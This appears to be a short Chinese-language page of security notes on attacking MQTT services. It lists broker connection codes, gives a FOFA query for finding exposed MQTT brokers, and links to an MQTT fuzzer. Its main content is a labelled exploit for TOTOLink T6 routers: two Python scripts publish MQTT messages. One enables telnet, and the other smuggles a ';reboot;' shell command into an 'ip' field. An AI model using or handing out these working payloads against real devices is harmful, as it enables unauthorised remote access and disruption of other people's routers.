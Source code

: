 MQTT Connection Code：0==》将可以连接

MQTT Connection Code：4==》用户名密码错误

MQTT Connection Code：5==》该Broler不支持用户密码登陆

fofa关键字：

```
protocol="mqtt"
```





### TOTOLink T6路由器MQTT漏洞复现

EXP：

通过MQTT开启telnet

```python
import paho.mqtt.client as mqtt

client = mqtt.Client()
client.connect("192.168.0.1",1883,60)
client.publish("totolink/router/setTelnetCfg", b'{"telnet_enabled":"1"}')
```

或：

```python
import paho.mqtt.client as mqtt

client = mqtt.Client()
client.connect("192.168.0.1",1883,60)
client.publish("totolink/router/recvSlaveUpgstatus", b'{"status":"1","ip":";reboot;"}')
```





## MQTT Fuzz

ShadowFuzzer：

```URL
https://github.com/ReAbout/ShadowFuzzer/tree/main/Fuzzer
```

